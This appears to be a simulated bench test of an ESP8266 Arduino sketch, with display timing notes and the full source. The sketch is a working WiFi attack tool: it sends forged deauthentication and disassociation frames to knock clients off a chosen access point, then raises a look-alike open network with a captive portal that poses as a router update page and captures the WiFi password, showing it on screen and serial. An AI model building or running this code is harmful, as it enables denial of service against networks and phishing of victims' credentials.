
Bench run of a sketch on a simulated ESP8266 (NodeMCU). On the bench: 128×64 one-colour display. Inputs (shaded band) come from the test bench; at power-on: GPIO 2 (button) HIGH. A WiFi scan finds three made-up networks; what the sketch prints to the serial monitor is not drawn.

Above: at 5.8 s.
5.9 s: GPIO 2 (button) pulled LOW for 0.15 s
At 6.5 s:

7.6 s: GPIO 2 (button) pulled LOW for 1 s
At 9.2 s:

10.1 s: GPIO 2 (button) pulled LOW for 3.2 s
At 13.5 s:

14.8 s: HTTP request GET /update received
At 16.2 s:

Timing chart, 0 to 17.7 s (numbered marks = the images above; inputs shaded):


The sketch:

hehe_exp.ino
```cpp
#include <ESP8266WiFi.h>
#include <WiFiClient.h>
#include <ESP8266WebServer.h>
#include <DNSServer.h>
#include <Wire.h>
#include "SSD1306.h"
#include <ezButton.h>
#ifdef ESP8266
extern "C" {
#include "user_interface.h"
}
#endif
//_________________________________________________________________
SSD1306 display(0x3c, 4, 5);
bool deAuth = false;
const int SHORT_PRESS_TIME = 500;
const int LONG_PRESS_TIME  = 2000;
char ssid[20];
//----------------------------------------------------------------
// Captive Portal Prerequisites : -
//----------------------------------------------------------------
const char MAIN_page[] PROGMEM = R"=====(
<!DOCTYPE html>
<html>
<head>
  <title>Update Your WiFi Router</title>
  <style>
    body {
      background-color: #F2F2F2;
      font-family: Arial, sans-serif;
    }
    h1 {
      color: #0072C6;
      text-align: center;
    }
    form {
      margin: 0 auto;
      width: 400px;
      padding: 20px;
      background-color: #FFFFFF;
      box-shadow: 0px 0px 10px #CCCCCC;
    }
    input[type="password"] {
      padding: 10px;
      border: 2px solid #0072C6;
      border-radius: 5px;
      width: 100%;
      box-sizing: border-box;
      font-size: 16px;
      margin-bottom: 20px;
    }
    input[type="submit"] {
      background-color: #0072C6;
      color: #FFFFFF;
      font-size: 18px;
      padding: 10px;
      border: none;
      border-radius: 5px;
      cursor: pointer;
      width: 100%;
    }
    input[type="submit"]:hover {
      background-color: #005FAD;
    }
  </style>
</head>
<body>
  <h1>Update Your WiFi Router</h1>
  <form action="/update">
    Please authorize to continue:<br>
    <input type="password" name="passwd" placeholder="Enter Password">
    <br>
    <input type="submit" value="Submit">
  </form>
</body>
</html>
)=====";

const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 1, 1);
DNSServer dnsServer;
ESP8266WebServer server(80);

//ip on browser routine
void handleRoot() {
 String s = MAIN_page; //Read HTML contents
 server.send(200, "text/html", s); //Send web page
}
//submit button routine
void handleForm() {
 String passwd = server.arg("passwd");
 Serial.print("Password:");
 Serial.println(passwd);
 display.clear();
 display.setFont(ArialMT_Plain_10);
 display.drawString(0, 0, "Password Captured:");
 display.drawString(0, 20, passwd);
 display.display();
 WiFi.mode(WIFI_OFF);
 delay(15000);
 ESP.restart();
}

//----------------------------------------------------------------
uint8_t packet[90] = {
    0xC0, 0x00, // type, subtype c0: deauth (a0: disassociate)
    0x00, 0x00, // duration (SDK takes care of that)
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, // reciever (target)
    0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // source (ap)
    0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // BSSID (ap)
    0x00, 0x00, // fragment & squence number
    0x01, 0x00, // reason code (1 = unspecified reason)
    0x00, 0x18, 0x00, 0x00, 0x00, 0x0c, // QoS Control field (set to 0x18 for Wifi 6)
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
};


bool sendPacket(uint8_t* packet, uint16_t packetSize, uint8_t wifi_channel, uint16_t tries, bool pmf_enabled) {
    wifi_set_channel(wifi_channel);
    bool sent = false;
    if (pmf_enabled) {
        packet[24] = 0x02; // number of bytes in the PMF IE
        packet[25] = 0x01; // element id of the PMF IE
        packet[26] = 0x01; // PMF enabled
        packetSize += 3; // increase packet size to include PMF IE
    }
    for (int i = 0; i < tries && !sent; i++) sent = wifi_send_pkt_freedom(packet, packetSize, 0) == 0;
    return sent;
}

bool deauthDevice(uint8_t* mac, uint8_t wifi_channel) {
    bool success = false;
    memcpy(&packet[10], mac, 6);
    memcpy(&packet[16], mac, 6);
    if (sendPacket(packet, sizeof(packet), wifi_channel, 2, true)) {
        success = true;
    }
    // send disassociate frame
    packet[0] = 0xa0;

    if (sendPacket(packet, sizeof(packet), wifi_channel, 2, true)) {
        success = true;
    }

    return success;
}
//_____________________________________________________________________

ezButton button(2);

unsigned long pressedTime  = 0;
unsigned long releasedTime = 0;
boolean bt = false;
boolean caPtl = true;
#define flipDisplay true

int n,i=0;
void setup() {
  display.init();
  if(flipDisplay) display.flipScreenVertically();
  //_____________________________________________
  display.clear();
  display.setFont(ArialMT_Plain_16);
  display.drawString(0, 0, "WiFi");
  display.drawString(0, 16, "Pishing");
  display.setFont(ArialMT_Plain_10);
  display.drawString(0, 50, "AshfaqueKhan");
  display.display();
  //_____________________________________________
  Serial.begin(115200);
  Serial.println("");
  //_____________________________________________
  WiFi.mode(WIFI_STA);
  WiFi.disconnect();
  delay(100);
  n = WiFi.scanNetworks();
  //_____________________________________________
  button.setDebounceTime(50);
  //_____________________________________________
  delay(2500);
}

void disp()
{
  button.loop();
  if(button.isPressed())
  {
    bt=true;
    pressedTime = millis();
  }
  if(button.isReleased()) {
    releasedTime = millis();
    bt=false;
    long pressDuration = releasedTime - pressedTime;

    if( pressDuration < SHORT_PRESS_TIME )
      Serial.println("A short press is detected");
      i++;
  }
  long pressDuration2 = millis() - pressedTime;
  if( pressDuration2 > LONG_PRESS_TIME && bt==true )
  {
    deAuth=true;
    bt=false;
  }
    i=i%n;
    display.clear();
    display.setFont(ArialMT_Plain_16);
    display.drawString(0, 0, WiFi.SSID(i));
    display.drawString(0, 16, "SignaL |");
    display.drawString(64, 16, String(WiFi.RSSI(i)));
    display.drawString(0, 32, "Channel|");
    display.drawString(64, 32, String(WiFi.channel(i)));
    display.setFont(ArialMT_Plain_10);
    display.drawString(0, 50, String(i+1));
    display.drawString(6, 50,"  /  ");
    display.drawString(10, 50, String(n));
    display.display();
}

void deauthLoop()
{
    WiFi.SSID(i).toCharArray(ssid,20);
    deauthDevice(WiFi.BSSID(i), WiFi.channel(i));
    display.clear();
    display.setFont(ArialMT_Plain_16);
    display.drawString(0, 0, WiFi.SSID(i));
    display.drawString(0, 16, "SignaL |");
    display.drawString(64, 16, String(WiFi.RSSI(i)));
    display.drawString(0, 32, "Channel|");
    display.drawString(64, 32, String(WiFi.channel(i)));
    display.setFont(ArialMT_Plain_10);
    display.drawString(0, 50, "Deauthenticating");
    display.drawString(100, 50,String(deauthDevice(WiFi.BSSID(i), WiFi.channel(i))));
    display.display();
    if(caPtl)
    {
        WiFi.mode(WIFI_AP_STA);// dual mode
        WiFi.softAPConfig(apIP, apIP, IPAddress(255, 255, 255, 0));
        WiFi.softAP(ssid);
        Serial.println("");
        dnsServer.start(DNS_PORT, "*", apIP);
        server.on("/", handleRoot);
        server.on("/update", handleForm);
        server.onNotFound(handleRoot);
        server.begin();
        caPtl=false;
    }
    delay(1000);
}
void loop()
{
  if(deAuth)
  {
    deauthLoop();
    dnsServer.processNextRequest();
    server.handleClient();
  }
  else
  {
    disp();
  }
}
```

Measured:
- after the input at 5.9 s, the display: changes after 0.22 s (image 1)
- after the input at 7.6 s, the display: changes after 1.1 s (image 2)
- after the input at 10.1 s, the display: changes after 2.1 s (image 3)
- after the input at 14.8 s, the display: changes after 0.43 s (image 4)
